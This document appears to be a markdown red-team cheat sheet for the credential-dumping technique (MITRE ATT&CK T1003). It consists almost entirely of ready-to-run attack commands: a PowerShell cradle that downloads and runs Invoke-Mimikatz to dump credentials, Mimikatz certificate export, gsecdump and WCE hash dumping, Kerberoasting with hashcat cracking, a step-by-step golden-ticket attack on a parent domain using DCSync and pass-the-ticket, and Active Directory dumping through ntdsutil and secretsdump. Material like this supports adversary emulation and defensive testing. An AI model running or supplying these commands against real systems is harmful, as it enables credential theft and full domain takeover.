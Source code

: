 # Credential Dumping

MITRE ATT&CK Technique: [T1003](https://attack.mitre.org/wiki/Technique/T1003)


## Powershell Mimikatz - Dump Credentials

Input:

    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"

## Powershell Mimikatz - Dump Certificates

Input:

    PS> Import-Module Invoke-Mimikatz.ps1 
    Invoke-Mimikatz –command '"privilege::debug"' 
    Invoke-Mimikatz –command '"crypto::capi"' 
    Invoke-Mimikatz –command '"crypto::certificates /export"' 
  
## Gsecdump

[Gsecdump](https://www.truesec.se/sakerhet/verktyg/saakerhet/gsecdump_v2.0b5)

Input:

    gsecdump -a

## Windows Credential Editor

[Windows Credential Editor](http://www.ampliasecurity.com/research/windows-credentials-editor/)

Input:

    wce -o output.txt

Output:

    C:\>wce -o output.txt
    WCE v1.2 (Windows Credentials Editor) - (c) 2010,2011 Amplia Security - by Hernan Ochoa (hernan@ampliasecurity.com)
    Use -h for help.

    C:\>type output.txt
    test:AMPLIALABS:01020304050607080900010203040506:98971234567865019812734576890102
    C:\>

## Powershell Mimikatz - Dump Service Account Passwords (Keberoast)

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Input:

    PS> invoke-kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash <hash>
    
[hashcat] (https://github.com/hashcat/hashcat.git)

    PS> invoke-kerberoast -OutputFormat HashCat | Select-Object -ExpandProperty hash > ./krbtgs-23.txt
    hashcat -m 13100 -a 0 -w 4 --session kerb -o hash.pot --powertune-enable ./krb-tgs-23.txt
    /opt/rockyou.txt -r ./hashcat-3.10/rules/dive.rule

[JohnTheRipper (Magnum Ripper)] (https://github.com/magnumripper/JohnTheRipper)

    PS> invoke-kerberoast -OutputFormat John | Select-Object -ExpandProperty hash
    
## Powershell Mimikatz - Create Golden Ticket on a Parent Domain with a Bi-Directional Trust

[Powersploit] (https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

 #create golden ticket to use  
  
    PS> Import-Module .\Invoke-Mimikatz.ps1 PS> Import-Module .\PowerView.ps1 
    PS> Get-DomainSid  
    PS> Get-NetGroup “Enterprise Admins" -Domain <Domain> <SID> 
    

#Grab the NTLM hash of the krbtgt user for the child domain 
    
    PS> Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<Domain> /user:krbtgt"' f320b90fa9c53969efc61146e77022b5
    

#Try mounting the C$ of the parent domain controller
    
    PS> dir \<Domain Controller>\c$ #Error - access denied
    

#Create a golden ticket for a user on the child domain with enterprise admin rights of the parent domain
   
    PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<SID> /krbtgt:<SID> /sids:<SID> /ptt"'
    

#Create a golden ticket file if needed for backup
    
    PS> Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Domain> /sid:<sid> 
        /krbtgt:f320b90fa9c53963efc61146e77022b5 /sids:<SID>"‘

    PS> Invoke-Mimikatz -Command '"kerberos::ptt ticketname.bin"'

#Check administrative access to the parent domain controller
    
    PS> dir \\<Domain Controller>l\c$ #Allowed
    PS> Invoke-WmiMethod -Path Win32_process -Name create -ComputerName <Computer Name> -ArgumentList calc.exe
    
## Dump Active Directory    

#Run DCSync with mimikatz
    
    PS> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<username> /domain:<domain>"'
    

#DCSync built-in to Mimikatz
(https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/InvokeDCSync.ps1) 


    PS> Invoke-DCSync –PWDumpFormat 
    
    
#Most risk averse way – requires access to a DC with elevated rights
     
     PS> mkdir c:\temp\dump\
     PS> NTdsutil.exe "activate instance ntds" "ifm" "create full c:\temp\dump" ""q"" ""q""

#Zip and download folder

    secretsdump.py -system registry/SYSTEM -security registry/SECURITY -ntds
    Active\ Directory/ntds.dit -hashes lmhash:nthash –outputfile tmp-hashes.dump
    LOCAL   
